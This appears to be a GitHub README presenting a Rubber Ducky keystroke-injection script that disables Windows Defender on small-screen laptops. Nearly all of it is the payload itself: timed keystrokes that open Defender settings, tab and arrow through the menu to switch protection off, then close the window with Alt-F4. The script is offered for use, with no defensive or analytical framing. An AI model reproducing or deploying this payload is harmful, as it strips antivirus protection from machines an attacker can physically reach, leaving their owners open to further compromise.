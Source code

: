 # Rubber-Ducky-Script-Disable-Windows-Defender-on-Eee-Pc

A simple Script for Rubber Ducky to disable windows defender on small screen laptops


Payload:


DELAY 1000
CONTROL ESCAPE
DELAY 1000
STRING windows defender settings
DELAY 1000
ENTER
REM here start the windows defender menù
DELAY 1000
TAB
DELAY 1000
DOWNARROW
DELAY 1000
TAB
DELAY 1000
DOWNARROW
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
DOWNARROW
REM close the menu
DELAY 1000
ALT F4


